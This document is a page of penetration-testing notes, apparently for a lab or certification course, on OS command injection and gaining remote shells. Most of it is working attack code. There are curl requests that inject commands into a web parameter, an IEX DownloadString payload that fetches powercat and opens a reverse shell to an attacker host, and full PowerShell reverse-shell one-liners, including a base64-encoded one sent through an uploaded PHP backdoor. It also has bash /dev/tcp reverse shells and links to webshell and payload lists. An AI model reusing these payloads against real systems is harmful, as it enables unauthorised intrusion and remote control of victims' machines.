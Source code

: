 # OS Command injection (RCE)

{% code title="Using git version to detect the operating system" overflow="wrap" lineNumbers="true" %}
```
curl -X POST --data 'Archive=git version' http://192.168.50.189:8000/archive
```
{% endcode %}

{% code title="Entering git and ipconfig with encoded semicolon" overflow="wrap" lineNumbers="true" %}
```
curl -X POST --data 'Archive=git%3Bipconfig' http://192.168.50.189:8000/archive
```
{% endcode %}

{% code title="Code Snippet to check where our code is executed" overflow="wrap" lineNumbers="true" %}
```
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```
{% endcode %}

{% code title="Determining where the injected commands are executed" overflow="wrap" lineNumbers="true" %}
```
kali@kali:~$ curl -X POST --data 'Archive=git%3B(dir%202%3E%261%20*%60%7Cecho%20CMD)%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell' http://192.168.50.189:8000/archive

...
See 'git help git' for an overview of the system.
PowerShell
```
{% endcode %}

{% code title="Serve Powercat via Python3 web server" overflow="wrap" lineNumbers="true" %}
```
cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .
python3 -m http.server 80
```
{% endcode %}

{% code title="Downloading Powercat and creating a reverse shell via Command Injection" overflow="wrap" lineNumbers="true" %}
```
curl -X POST --data 'Archive=git%3BIEX%20(New-Object%20System.Net.Webclient).DownloadString(%22http%3A%2F%2F192.168.119.3%2Fpowercat.ps1%22)%3Bpowercat%20-c%20192.168.119.3%20-p%204444%20-e%20powershell' http://192.168.50.189:8000/archive
```
{% endcode %}

## Powershell reverse shell oneliner

Or we could have used a Powershell reverse shell oneliner [https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3)

{% code title="PS oneliner" overflow="wrap" lineNumbers="true" %}
```
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
{% endcode %}

### Encoded PS oneliner

{% code title="Encoding the oneliner in PowerShell on Linux" overflow="wrap" lineNumbers="true" %}
```
kali@kali:~$ pwsh
PowerShell 7.1.3
Copyright (c) Microsoft Corporation.

https://aka.ms/powershell
Type 'help' to get help.

PS> $Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.119.3",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'


PS> $Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)

PS> $EncodedText =[Convert]::ToBase64String($Bytes)

PS> $EncodedText
JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0
...
AYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA


PS> exit
```
{% endcode %}

{% code title="Using curl to send the base64 encoded reverse shell oneliner" overflow="wrap" lineNumbers="true" %}
```
curl http://192.168.50.189/meteor/uploads/simple-backdoor.pHP?cmd=powershell%20-enc%20JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0
...
AYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA
```
{% endcode %}

## From CMD with PS oneliner

{% code title="powershell.exe + Above command" overflow="wrap" lineNumbers="true" %}
```
CMD> powershell.exe $client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
{% endcode %}

## Bash Reverse shell oneliner

{% code title="bash shell oneliner" overflow="wrap" lineNumbers="true" %}
```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
/bin/bash -i >& /dev/tcp/192.168.XXX.XXX/443 0>&1
bash -c "/bin/bash -l > /dev/tcp/10.0.0.1/4242 0<&1 2>&1"
```
{% endcode %}

{% hint style="info" %}
[https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
{% endhint %}

## ASPX webshell and shell

Use webshell from /usr/share/webshells/aspx to execute commands on the victim VM.

This is an aspx reverse shell that can be used if upload is working. [https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx](https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx)

## Types of command injection

1. Blind command injection
2. Verbose command injection

Detecting Blind Command Injection

You can try using ping, sleep, or output the result to a file with ">" and after that read the contents with "cat"

using curl

{% hint style="info" %}
cheatsheet with command injection payloads

[https://github.com/payloadbox/command-injection-payload-list](https://github.com/payloadbox/command-injection-payload-list)
{% endhint %}
